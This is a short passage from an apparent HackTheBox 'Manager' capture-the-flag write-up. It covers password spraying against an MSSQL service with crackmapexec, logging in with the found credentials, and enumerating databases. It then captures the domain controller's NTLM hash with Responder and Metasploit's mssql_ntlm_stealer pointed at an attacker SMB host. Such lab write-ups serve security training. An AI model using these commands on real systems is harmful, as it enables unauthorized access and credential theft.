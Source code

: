 ## **Exploiting MSSQL :**

Try password Spraying on the mssql service: `crackmapexec mssql 10.10.11.236 -u user.lst -p user.lst`

![Untitled](assets/Manager/mssqlcreds.png)

Acces to mssql : `mssqlclient.py -port 1433 manager.htb/Operator:operator@10.10.11.236 -windows-auth`

Enumerate MSSQL : 

```bash
# view current user 
SELECT user_name()

#show databases 
SELECT * FROM master.dbo.sysdatabases

# select a DB 
USE <db_name>

#Show tables 
SELECT * FROM information_schema.tables

# Get table content
SELECT * FROM master.dbo.spt_values
```

**Get NTLM Hash**

MSSQL don’t uses **Keberos** to authenticate users so we can retrieve the NTLM hash :

```bash
#start repnoder 
responder -I <interface>

#Msfconsole
use auxiliary/admin/mssql/mssql_ntlm_stealer

#configure exploit
set PaSSWORD operator
set username Operator
set smbproxy 10.10.16.2
set use_windows_authent true
run

#Look your responder !
```

Intercept DC01$ users hash ! 
